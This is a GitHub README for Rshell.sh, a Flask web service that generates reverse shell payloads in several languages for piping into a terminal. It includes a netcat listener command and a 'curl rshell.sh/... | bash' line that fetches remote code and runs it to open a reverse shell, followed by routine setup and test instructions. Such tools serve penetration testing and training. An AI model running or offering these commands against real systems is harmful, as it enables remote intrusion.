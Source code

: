 # Rshell.sh Reverse Shell Payloads aaS

[Live Site!](https://rshell.sh)

## Overview / How it works

This project is multi-language reverse shell payload generator written in
Python3 using the Flask web framework. The point is to make it easy to quickly
pull reverse shell payloads down from the *cloud* ☁️  to your terminal using
`curl` or `wget`.

### Example Usecase

* Setup you listener:

```
nc -lvnp 1234
```

* Then query [`rshell.sh`](https://rshell.sh) to kick off the reverse shell:

```
curl rshell.sh/127.0.0.1/1234 | bash
```

## Languages Covered

* Bash
* Python
* Perl
* PHP
* Awk

See the project __[help page](https://rshell.sh/help)__ for more information.

## Dev Site Install / Setup

The server-side setup is pretty straight forward and this is run just like any
other flask app. Of course the instructions below are for spinning up the dev
version. Production setup involves extra steps and depends on your hosting
environment.

* First clone the repo:

```
git clone https://github.com/BlueSquare23/Rshell.sh
```

* Then install the required python modules:

```
cd Rshell.sh
virtualenv venv             # Virtual Env Optional
source venv/bin/activate    # Virtual Env Optional
pip3 install -r requirements.txt
```

* Finally, run the project:

```
python3 app.py
```

### Testing

The test are written using [`pytest`](https://pytest.org/). You can run the
test code by cd'ing into the project's main directory and running pytest.

```
cd Rshell.sh
virtualenv venv             # Virtual Env Optional
source venv/bin/activate    # Virtual Env Optional
python3 -m pytest
```

## Technologies

* Language: [Python 3](https://www.python.org/)
* Web-Framework: [Flask](https://palletsprojects.com/p/flask/)

